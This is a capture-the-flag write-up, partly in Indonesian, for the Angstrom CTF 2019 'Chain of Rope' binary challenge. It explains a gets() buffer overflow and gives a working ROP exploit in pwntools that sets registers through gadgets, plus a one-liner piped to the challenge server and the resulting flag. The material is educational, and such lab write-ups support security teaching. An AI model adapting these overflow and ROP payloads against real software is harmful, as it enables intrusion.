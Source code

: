# __Angstrom CTF 2019__ 
## _Chain of Rope_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary | 80 | l0l

**Description:** 

> 80 points 222 solves
>
> defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?
>
> nc shell.actf.co 19400
>
> Author: Aplet123
>
> Given : [binary](./chain_of_rope) and [source](./chain_of_rope.c)

### Chain of Rope
```
chain_of_rope: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d4c22998218e85daf31fb0739fe4b630d57f6241, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```
gdb-peda$ info func
...
0x0000000000401196  authorize
0x00000000004011ab  addBalance
0x00000000004011eb  flag
0x0000000000401252  getInfo
0x0000000000401278  main
...
```

### Chain of Rope Source Code
```c
...
int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}
...
	if (choice == 1) {
		gets(name);
	...
```

#### Solve
Terlihat ada vulnerability buffer overflow jika kita memilih opsi 1. Salah satu cara solve yang mudah adalah dengan overwrite return address ke bagian `system("/bin/cat flag.txt")` (bypass semua pengecekan) lalu kita akan langsung mendapatkan flagnya.

Cara lain dengan mengikuti alur yang diinginkan pembuat soal yaitu main -> authorize -> addBalance -> flag.
Setelah didisassemble, padding yang kita butuhkan untuk overwrite return address adalah 0x30 + 8 bytes (rbp). 

Ada sedikit masalah karena fungsi addBalance dan flag memerlukan argumen yang diambil dari register edi dan esi.
```
addBalance:
...
   0x00000000004011b3 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004011c3 <+24>:    cmp    DWORD PTR [rbp-0x4],0xdeadbeef

flag: 
   0x00000000004011f3 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004011f6 <+11>:    mov    DWORD PTR [rbp-0x8],esi
   0x0000000000401213 <+40>:    cmp    DWORD PTR [rbp-0x4],0xba5eba11
   0x000000000040121c <+49>:    cmp    DWORD PTR [rbp-0x8],0xbedabb1e

```
Maka kita perlu cara untuk set register edi dan esi. Dapat dicari dengan `ROPgadget --binary chain_of_rope`.  
Ditemukan 2 gadget yang cukup sesuai : 
```
0x0000000000401403 : pop rdi ; ret
0x0000000000401401 : pop rsi ; pop r15 ; ret
```

### Payload
```
python2 -c "from pwn import p64;print '1\n'+'A'*0x30+'A'*8+p64(0x0000000000401231)" | nc shell.actf.co 19400
```

```py
from pwn import *

authorize = 0x0000000000401196
addBalance = 0x00000000004011ab
flag = 0x00000000004011eb
getInfo = 0x0000000000401252
main = 0x401278
rdi = 0x0000000000401403
rsi = 0x0000000000401401

def overwrite_ret(addr,arg1=0,arg2=0):
	# go to some func then back to main
	payload = '1\n'
	payload += 'A'*0x30+'B'*8
	if arg1!=0:
		payload += p64(rdi)+p64(arg1)
	if arg2!=0:
		payload += p64(rsi)+p64(arg2)+p64(0xffffffffffffffff)
	payload += p64(addr)+p64(main)
	return payload


# overwrite return address to authorize
print overwrite_ret(authorize)
print overwrite_ret(addBalance,0xdeadbeef)
print overwrite_ret(flag,0xba5eba11,0xbedabb1e)
```

```
python2 x.py  | nc shell.actf.co 19400
```


### Result
```
--== ROPE CHAIN BLACK MARKET ==--
LIMITED TIME OFFER: Sending free flag along with any purchase.
What would you like to do?
1 - Set name
2 - Get user info
3 - Grant access
--== ROPE CHAIN BLACK MARKET ==--
LIMITED TIME OFFER: Sending free flag along with any purchase.
What would you like to do?
1 - Set name
2 - Get user info
3 - Grant access
--== ROPE CHAIN BLACK MARKET ==--
LIMITED TIME OFFER: Sending free flag along with any purchase.
What would you like to do?
1 - Set name
2 - Get user info
3 - Grant access
Authenticated to purchase rope chain, sending free flag along with purchase...
actf{dark_web_bargains}
.....
```

### Flag 
actf{dark_web_bargains}